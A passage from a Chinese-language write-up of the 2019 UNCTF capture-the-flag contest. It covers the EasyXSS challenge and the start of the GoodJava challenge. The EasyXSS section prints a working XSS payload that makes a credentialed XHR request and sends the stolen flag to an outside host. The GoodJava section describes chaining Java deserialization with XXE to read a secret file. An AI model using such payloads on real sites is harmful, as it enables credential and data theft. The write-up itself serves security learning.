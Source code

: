 ![](https://ctfwp.wetolink.com/2019unctf/EasyXSS/32bdd309fa0e45bfcb015c1a4f9177e1.png)

>   这个页面似乎可以利用，不带 id 参数打开，调试信息里有 Cookie 信息。

![](https://ctfwp.wetolink.com/2019unctf/EasyXSS/1a3660e864cd3d69bc4b35d2e685979b.png)

>   再来看看页面的 ACL 头，可以带着 Cookie 发 XHR 请求。

1.  然后就来构造一个 XHR 请求的 Payload 来利用这个页面拿 flag 吧。

```
<img src='/efefefe' onerror="xmlhttp=new XMLHttpRequest();xmlhttp.withCredentials=true;xmlhttp.onreadystatechange=function(){if(xmlhttp.readyState==4){location.href='http://xss.zhaoj.in/?flag=' + xmlhttp.responseText.match('flag\{(.*?)\}')[1]}};xmlhttp.open('GET','/index.php/treehole/view?id=',true);xmlhttp.send('');"/>
```

1.  打过去，flag 到手。

![](https://ctfwp.wetolink.com/2019unctf/EasyXSS/f00cc716dc47bc33963ef133e668d2ee.png)

![](https://ctfwp.wetolink.com/2019unctf/EasyXSS/d09d2571141a0c0f6ce0eb8debd68bf9.png)


### GoodJava
#### 前言
由于之前没怎么写过Java，此题可能有些bug，但对于拿flag影响不大，还请师傅们见谅

此题参考了最近的TMCTF，经过了改编 加大了难度

原题是用原生Servlet编写
此题改写成了Springboot，并且在第一步加了过滤，第二步考点直接换成了Java命令执行绕过（改动很大）

#### 解题过程

##### 前序步骤

题目会提供一个Jar包

用idea打开反编译后审计源码

找到Controller

![](https://ctfwp.wetolink.com/2019unctf/GoodJava/f632b2d3b620a2789cd736b3a3a83bc5.png)

###### 第一步

源码可知一共有两个路由

第二个路由需要输入secret密钥才能访问，而secret存在在服务器/passwd文件中

可以猜测第一个路由就是获取密钥文件的功能，跟进可以发现OIS类继承了ObjectInputStream，把POST数据传入OIS构造方法，而然后ois.readObject()则是反序列化操作

但是resolveClass方法限制了被反序列化的类只能是com.unctf.pojo.Man类

查看Man类，可以发现重写了readObject方法，这是Java反序列化的魔术方法，审计一下很容易发现XXE，根据代码构造即可

需要注意一下本地构造时serialVersionUID必须一致，此值代表了对象的版本或者说id，值不一致反序列化操作会失败

